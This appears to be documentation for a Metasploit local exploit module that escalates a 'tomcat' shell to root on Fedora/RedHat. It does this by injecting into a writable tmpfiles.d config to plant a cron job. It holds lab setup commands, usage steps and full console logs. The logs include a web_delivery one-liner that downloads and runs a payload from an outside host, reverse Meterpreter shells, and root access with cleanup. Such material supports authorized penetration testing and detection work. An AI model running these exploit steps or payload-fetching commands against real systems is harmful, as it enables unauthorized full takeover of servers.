 ## Vulnerable Application

This module exploits a vulnerability in RedHat based systems where
improper file permissions are applied to `/usr/lib/tmpfiles.d/tomcat.conf`
for Apache Tomcat versions before 7.0.54-8.  This may also work against

The configuration files in `tmpfiles.d` are used by `systemd-tmpfiles` to manage
temporary files including their creation.

With this weak permission, we're able to inject commands into `systemd-tmpfiles`
service to write a cron job to execute our payload.

`systemd-tmpfiles` is executed by default on boot on RedHat-based systems
through `systemd-tmpfiles-setup.service`. Depending on the system in use,
the execution of `systemd-tmpfiles` could also be triggered by other
services, cronjobs, startup scripts etc.

This module was tested against Tomcat 7.0.54-3 on Fedora 21.

### Install

This will install Tomcat 7 (7.0.54-3) on Fedora 21.

We also change the `tomcat` user's shell to `/bin/bash` to make setting up the priv-esc
easier.

```
wget https://archive.fedoraproject.org/pub/archive/fedora/linux/releases/21/Everything/x86_64/os/Packages/t/tomcat-7.0.54-3.fc21.noarch.rpm
wget https://archive.fedoraproject.org/pub/archive/fedora/linux/releases/21/Everything/x86_64/os/Packages/t/tomcat-lib-7.0.54-3.fc21.noarch.rpm
wget https://archive.fedoraproject.org/pub/archive/fedora/linux/releases/21/Everything/x86_64/os/Packages/a/apache-commons-collections-3.2.1-20.fc21.noarch.rpm
wget https://archive.fedoraproject.org/pub/archive/fedora/linux/releases/21/Everything/x86_64/os/Packages/a/apache-commons-daemon-1.0.15-8.fc21.x86_64.rpm
wget https://archive.fedoraproject.org/pub/archive/fedora/linux/releases/21/Everything/x86_64/os/Packages/a/apache-commons-dbcp-1.4-16.fc21.noarch.rpm
wget https://archive.fedoraproject.org/pub/archive/fedora/linux/releases/21/Everything/x86_64/os/Packages/a/apache-commons-logging-1.1.3-14.fc21.noarch.rpm
wget https://archive.fedoraproject.org/pub/archive/fedora/linux/releases/21/Everything/x86_64/os/Packages/a/apache-commons-pool-1.6-9.fc21.noarch.rpm
wget https://archive.fedoraproject.org/pub/archive/fedora/linux/releases/21/Everything/x86_64/os/Packages/t/tomcat-el-2.2-api-7.0.54-3.fc21.noarch.rpm
wget https://archive.fedoraproject.org/pub/archive/fedora/linux/releases/21/Everything/x86_64/os/Packages/t/tomcat-jsp-2.2-api-7.0.54-3.fc21.noarch.rpm
wget https://archive.fedoraproject.org/pub/archive/fedora/linux/releases/21/Everything/x86_64/os/Packages/t/tomcat-servlet-3.0-api-7.0.54-3.fc21.noarch.rpm
wget https://archive.fedoraproject.org/pub/archive/fedora/linux/releases/21/Everything/x86_64/os/Packages/e/ecj-4.4.0-1.fc21.noarch.rpm
wget https://archive.fedoraproject.org/pub/archive/fedora/linux/releases/21/Everything/x86_64/os/Packages/g/geronimo-jta-1.1.1-17.fc21.noarch.rpm
wget https://archive.fedoraproject.org/pub/archive/fedora/linux/releases/21/Everything/x86_64/os/Packages/g/geronimo-jms-1.1.1-19.fc21.noarch.rpm
wget https://archive.fedoraproject.org/pub/archive/fedora/linux/releases/21/Everything/x86_64/os/Packages/l/log4j12-1.2.17-7.fc21.noarch.rpm
wget https://archive.fedoraproject.org/pub/archive/fedora/linux/releases/21/Everything/x86_64/os/Packages/j/javamail-1.5.1-3.fc21.noarch.rpm
rpm -i *.rpm
sudo sed -i 's|/bin/nologin|/bin/bash|g' /etc/passwd
```

You can now `su tomcat` and get your starter shell.

## Verification Steps

1. Install the application
2. Start msfconsole
3. Get an initial shell as the `tomcat` user
4. Do: `use exploit/linux/local/tomcat_rhel_based_temp_priv_esc`
5. Do: `set session #`
6. Do: `run`
7. You should get a root shell.

## Options

### WritableDir

A directory where we can write and execute files. Defaults to `/tmp`.

## Scenarios

### Tomcat 7 (7.0.54-3) on Fedora 21

Initial shell

```
msf6 > use exploit/multi/script/web_delivery
[*] Using configured payload python/meterpreter/reverse_tcp
msf6 exploit(multi/script/web_delivery) > set lhost 1.1.1.1
lhost => 1.1.1.1
msf6 exploit(multi/script/web_delivery) > set target 7
target => 7
msf6 exploit(multi/script/web_delivery) > set payload linux/x64/meterpreter/reverse_tcp
payload => linux/x64/meterpreter/reverse_tcp
msf6 exploit(multi/script/web_delivery) > exploit
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.
msf6 exploit(multi/script/web_delivery) > 
[*] Started reverse TCP handler on 1.1.1.1:4444 
[*] Using URL: http://1.1.1.1:8080/fGd5wnh85
[*] Server started.
[*] Run the following command on the target machine:
wget -qO TbT9zhqH --no-check-certificate http://1.1.1.1:8080/fGd5wnh85; chmod +x TbT9zhqH; ./TbT9zhqH& disown

msf6 exploit(multi/script/web_delivery) > 
[*] 2.2.2.2      web_delivery - Delivering Payload (250 bytes)
[*] Sending stage (3045348 bytes) to 2.2.2.2
[*] Meterpreter session 1 opened (1.1.1.1:4444 -> 2.2.2.2:41270) at 2023-01-19 15:22:23 -0500

msf6 exploit(multi/script/web_delivery) > jobs -K
Stopping all jobs...

[*] Server stopped.
msf6 exploit(multi/script/web_delivery) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > getuid
Server username: tomcat
meterpreter > sysinfo
Computer     : localhost.domain
OS           : Fedora 21 (Linux 3.17.4-301.fc21.x86_64)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > background
[*] Backgrounding session 1...
```

Priv Esc

```
msf6 exploit(multi/script/web_delivery) > use exploit/linux/local/tomcat_rhel_based_temp_priv_esc
[*] Using configured payload linux/x64/meterpreter_reverse_tcp
msf6 exploit(linux/local/tomcat_rhel_based_temp_priv_esc) > set verbose true
verbose => true
msf6 exploit(linux/local/tomcat_rhel_based_temp_priv_esc) > set session 1
session => 1
msf6 exploit(linux/local/tomcat_rhel_based_temp_priv_esc) > set lhost 1.1.1.1
lhost => 1.1.1.1
msf6 exploit(linux/local/tomcat_rhel_based_temp_priv_esc) > exploit

[*] Started reverse TCP handler on 1.1.1.1:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Vulnerable app version detected: 7.0.54.pre.3
[*] Creating backup of /usr/lib/tmpfiles.d/tomcat.conf
[+] Original /usr/lib/tmpfiles.d/tomcat.conf backed up to /root/.msf4/loot/20230119152336_default_2.2.2.2_usrlibtmpfile_530018.txt
[*] Uploading Payload to /tmp/.4ptbf6f4fW
[*] Writing '/tmp/.4ptbf6f4fW' (1068640 bytes) ...
[*] Writing permission elevation into /usr/lib/tmpfiles.d/tomcat.conf
[*] Creating cron job in /etc/cron.d/grPwZ
[+] Waiting 1800 seconds on tmpfiles-setup.service to restart (/usr/bin/systemd-tmpfiles --create)
[*] Sleeping for 2 seconds before attempting again
[*] Sleeping for 4 seconds before attempting again
[*] Sleeping for 8 seconds before attempting again
[-] /etc/cron.d/grPwZ not found, checking in 10 seconds
[*] Waiting on cron to kick the payload (~1 minute)
[+] Deleted /tmp/.4ptbf6f4fW
[+] Deleted /etc/cron.d/grPwZ
[*] Meterpreter session 2 opened (1.1.1.1:4444 -> 2.2.2.2:41271) at 2023-01-19 15:24:24 -0500

meterpreter > getuid
Server username: root
```